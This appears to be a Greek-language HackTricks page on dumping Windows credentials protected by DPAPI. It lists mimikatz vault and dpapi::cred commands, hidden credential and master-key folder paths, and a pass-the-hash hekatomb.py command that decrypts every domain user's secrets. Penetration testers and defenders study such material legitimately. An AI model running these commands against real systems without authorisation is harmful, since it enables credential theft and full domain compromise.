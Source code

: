 # DPAPI - Εξαγωγή Κωδικών

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) είναι η πιο σχετική εκδήλωση κυβερνοασφάλειας στην **Ισπανία** και μία από τις πιο σημαντικές στην **Ευρώπη**. Με **αποστολή την προώθηση της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένα καυτό σημείο συνάντησης για επαγγελματίες της τεχνολογίας και της κυβερνοασφάλειας σε κάθε τομέα.

{% embed url="https://www.rootedcon.com/" %}

## Τι είναι το DPAPI

Η API Προστασίας Δεδομένων (DPAPI) χρησιμοποιείται κυρίως στο λειτουργικό σύστημα Windows για **συμμετρική κρυπτογράφηση ασύμμετρων ιδιωτικών κλειδιών**, εκμεταλλευόμενη είτε μυστικά χρήστη είτε συστήματος ως σημαντική πηγή εντροπίας. Αυτή η προσέγγιση απλοποιεί την κρυπτογράφηση για τους προγραμματιστές, επιτρέποντάς τους να κρυπτογραφούν δεδομένα χρησιμοποιώντας ένα κλειδί που προέρχεται από τα μυστικά σύνδεσης του χρήστη ή, για την κρυπτογράφηση του συστήματος, τα μυστικά αυθεντικοποίησης του τομέα του συστήματος, αποφεύγοντας έτσι την ανάγκη οι προγραμματιστές να διαχειρίζονται την προστασία του κλειδιού κρυπτογράφησης οι ίδιοι.

### Προστατευμένα Δεδομένα από το DPAPI

Μεταξύ των προσωπικών δεδομένων που προστατεύονται από το DPAPI είναι:

* Κωδικοί πρόσβασης και δεδομένα αυτόματης συμπλήρωσης του Internet Explorer και του Google Chrome
* Κωδικοί πρόσβασης email και εσωτερικών λογαριασμών FTP για εφαρμογές όπως το Outlook και το Windows Mail
* Κωδικοί πρόσβασης για κοινόχρηστα φακέλους, πόρους, ασύρματα δίκτυα και Windows Vault, συμπεριλαμβανομένων των κλειδιών κρυπτογράφησης
* Κωδικοί πρόσβασης για απομακρυσμένες συνδέσεις επιφάνειας εργασίας, .NET Passport και ιδιωτικά κλειδιά για διάφορους σκοπούς κρυπτογράφησης και αυθεντικοποίησης
* Κωδικοί πρόσβασης δικτύου που διαχειρίζεται ο Credential Manager και προσωπικά δεδομένα σε εφαρμογές που χρησιμοποιούν το CryptProtectData, όπως το Skype, το MSN messenger και άλλα

## Λίστα Vault
```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```
## Credential Files

Τα **αρχεία διαπιστευτηρίων που προστατεύονται** θα μπορούσαν να βρίσκονται σε:
```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
Αποκτήστε πληροφορίες πιστοποίησης χρησιμοποιώντας το mimikatz `dpapi::cred`, στην απάντηση μπορείτε να βρείτε ενδιαφέρουσες πληροφορίες όπως τα κρυπτογραφημένα δεδομένα και το guidMasterKey.
```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```
Μπορείτε να χρησιμοποιήσετε το **mimikatz module** `dpapi::cred` με το κατάλληλο `/masterkey` για να αποκρυπτογραφήσετε:
```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```
## Master Keys

Οι κωδικοί DPAPI που χρησιμοποιούνται για την κρυπτογράφηση των RSA κλειδιών του χρήστη αποθηκεύονται στον φάκελο `%APPDATA%\Microsoft\Protect\{SID}`, όπου {SID} είναι ο [**Αναγνωριστής Ασφαλείας**](https://en.wikipedia.org/wiki/Security\_Identifier) **του συγκεκριμένου χρήστη**. **Ο κωδικός DPAPI αποθηκεύεται στο ίδιο αρχείο με τον κύριο κωδικό που προστατεύει τα ιδιωτικά κλειδιά των χρηστών**. Συνήθως είναι 64 bytes τυχαίων δεδομένων. (Σημειώστε ότι αυτός ο φάκελος είναι προστατευμένος, οπότε δεν μπορείτε να τον καταχωρίσετε χρησιμοποιώντας `dir` από το cmd, αλλά μπορείτε να τον καταχωρίσετε από το PS).
```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```
Αυτό είναι πώς φαίνονται μια σειρά από Master Keys ενός χρήστη:

![](<../../.gitbook/assets/image (1121).png>)

Συνήθως **κάθε master key είναι ένα κρυπτογραφημένο συμμετρικό κλειδί που μπορεί να αποκρυπτογραφήσει άλλο περιεχόμενο**. Επομένως, **η εξαγωγή** του **κρυπτογραφημένου Master Key** είναι ενδιαφέρουσα προκειμένου να **αποκρυπτογραφήσουμε** αργότερα εκείνο το **άλλο περιεχόμενο** που έχει κρυπτογραφηθεί με αυτό.

### Εξαγωγή master key & αποκρυπτογράφηση

Ελέγξτε την ανάρτηση [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin) για ένα παράδειγμα σχετικά με το πώς να εξαγάγετε το master key και να το αποκρυπτογραφήσετε.

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) είναι μια C# μεταφορά κάποιων λειτουργιών DPAPI από το [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) έργο.

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) είναι ένα εργαλείο που αυτοματοποιεί την εξαγωγή όλων των χρηστών και υπολογιστών από τον κατάλογο LDAP και την εξαγωγή του κλειδιού αντιγράφου ασφαλείας του ελεγκτή τομέα μέσω RPC. Το σενάριο θα επιλύσει στη συνέχεια τη διεύθυνση IP όλων των υπολογιστών και θα εκτελέσει smbclient σε όλους τους υπολογιστές για να ανακτήσει όλα τα DPAPI blobs όλων των χρηστών και να αποκρυπτογραφήσει τα πάντα με το κλειδί αντιγράφου ασφαλείας του τομέα.

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

Με τη λίστα υπολογιστών που εξήχθη από το LDAP μπορείτε να βρείτε κάθε υποδίκτυο ακόμα και αν δεν τα γνωρίζατε!

"Επειδή τα δικαιώματα Domain Admin δεν είναι αρκετά. Χακάρετε τα όλα."

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI) μπορεί να εξάγει μυστικά που προστατεύονται από DPAPI αυτόματα.

## Αναφορές

* [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) είναι η πιο σχετική εκδήλωση κυβερνοασφάλειας στην **Ισπανία** και μία από τις πιο σημαντικές στην **Ευρώπη**. Με **αποστολή την προώθηση της τεχνικής γνώσης**, αυτό το συνέδριο είναι ένα καυτό σημείο συνάντησης για επαγγελματίες τεχνολογίας και κυβερνοασφάλειας σε κάθε πειθαρχία.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στην [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
